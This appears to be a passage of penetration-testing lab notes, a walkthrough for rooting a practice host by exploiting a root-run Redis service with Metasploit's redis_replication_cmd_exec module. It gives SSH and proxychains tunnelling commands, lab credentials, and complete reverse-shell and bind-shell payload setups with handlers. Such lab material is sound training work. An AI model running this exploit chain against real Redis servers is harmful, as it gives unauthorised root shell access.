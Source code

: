 
### 5.1 Reverse shell payload
After ssh-ing into target1, elevate your privileges to root. If you want to try and root target1 without any hints, now’s your chance. Do not worry if you crush the service, it will automatically restart so you can try again. Otherwise, scroll down for more details. Please double check your proxychains settings as outlined in the "Install proxychains4" section.

credentials dory / justkeepswimming

We are going to exploit the redis server running as root that is listening on 127.0.0.1:6379. There are two options to setup tunnels. If you do not want to modify your /etc/proxychains4.conf file, use -L tunnels (option 1). 

#### Method 1

```
ssh $USER@$JB1 -L 2222:$TARGET1:22
```

From Kali, ssh into target1 and setup the tunnels to exploit. You can optionally supply the proxychains4 config file using -f /etc/proxychains4.conf. The -L tunnel allows us to access and exploit the redis service, and the two -R tunnels are for the malicious Master server and payload callback, respectively.

```
export USER2=dory
```

```
ssh $USER2@127.0.0.1 -p 2222 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -R 5555:127.0.0.1:5555
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Reverse Shell]]


#### Method 2

If you want to use a -D SOCKS tunnel (option 2), you will need to uncomment the `localnet 127.0.0.1/255.255.255.0` line in your /etc/proxychains4.conf file so it looks like the one below. This tells proxychains to not use the SOCKS proxy for any traffic hitting 127.0.0.1 on your Kali box.

![[Pasted image 20220430090252.png]]

credentials dory / justkeepswimming

```
ssh $USER@$JB1 -D 9050
```

```
proxychains4 ssh dory@$TARGET1 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -R 5555:127.0.0.1:5555
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Reverse Shell]]

#### Metasploit - Reverse Shell

SHELL 1:
```
sudo msfdb run
```

Specify the exploit to use.
```
use exploit/linux/redis/redis_replication_cmd_exec
```

Leverage a -L forward tunnel to access the redis service.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 6379
```

Leverage a -R port forward to act as the malicious Master server.  This tells target1 to callback to itself , riding the -R 4444 tunnel back to the Kali host.
```
set SRVHOST 127.0.0.1
```

```
set SRVPORT 4444
```

```
set PAYLOAD linux/x64/shell_reverse_tcp
```

Configure the payload to call back to target1 itself, riding the -R 5555 tunnel back to the Kali host.
```
set LHOST 127.0.0.1
```

```
set LPORT 5555
```

The callback will be handled by a separate payloadhandler, so disable it in this msfconsole.
```
set DisablePayloadHandler True
```

Double check everything.
```
show options
```

SHELL 2:
```
sudo msfdb run
```

Start a generic payload handler.
```
use exploit/multi/handler
```

```
set PAYLOAD linux/x64/shell_reverse_tcp
```

```
set LPORT 5555
```

```
set LHOST 127.0.0.1
```

```
show options
```

```
run
```

SHELL 1:
```
check
```

```
exploit
```

### 5.2 Bind shell payload

Same as previous exercise, but configure the payload to be a bind shell.

We are going to exploit the redis server running as root that is listening on 127.0.0.1:6379. There are two options to setup tunnels. If you do not want to modify your /etc/proxychains4.conf file, use -L tunnels (option 1). 

credentials dory / justkeepswimming

#### Method 1
```
ssh $USER@$JB1 -L 2222:$TARGET1:22
```

```
export USER2=dory
```

```
ssh $USER2@127.0.0.1 -p 2222 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -L 6666:127.0.0.1:6666
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Bind Shell]]

#### Method 2

If you want to use a -D SOCKS tunnel (option 2), you will need to uncomment the localnet 127.0.0.1/255.255.255.0 line in your /etc/proxychains4.conf file so it looks like the one below. This tells proxychains to not use the SOCKS proxy for any traffic hitting 127.0.0.1 on your Kali box.

credentials dory / justkeepswimming

```
proxychains4 ssh dory@$TARGET1 -L 6379:127.0.0.1:6379 -R 4444:127.0.0.1:4444 -R 6666:127.0.0.1:6666
```

```
nmap -sV -Pn -n 127.0.0.1 -p 6379
```

Continue with [[5._Linux Exploitation#Metasploit - Bind Shell]]

#### Metasploit - Bind Shell

SHELL 1:
```
sudo msfdb run
```

Specify the exploit to use.
```
use exploit/linux/redis/redis_replication_cmd_exec
```

Leverage a -L forward tunnel to access the redis service.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 6379
```

Leverage a -R port forward to act as the malicious Master server.  This tells target1 to callback to itself , riding the -R 4444 tunnel back to the Kali host.
```
set SRVHOST 127.0.0.1
```

```
set SRVPORT 4444
```

```
set PAYLOAD linux/x64/shell_bind_tcp
```

Configure the payload to listen on target1's 127.0.0.1 interface.
```
set RHOST 127.0.0.1
```

```
set LPORT 6666
```

The callback will be handled by a separate payloadhandler, so disable it in this msfconsole.
```
set DisablePayloadHandler True
```

Double check everything.
```
show options
```

```
exploit
```

SHELL 2:
```
sudo msfdb run
```

Start a generic payload handler.
```
use exploit/multi/handler
```

```
set payload linux/x64/shell_bind_tcp
```

```
set LPORT 6666
```

```
set RHOST 127.0.0.1
```

```
show options
```

```
run
```

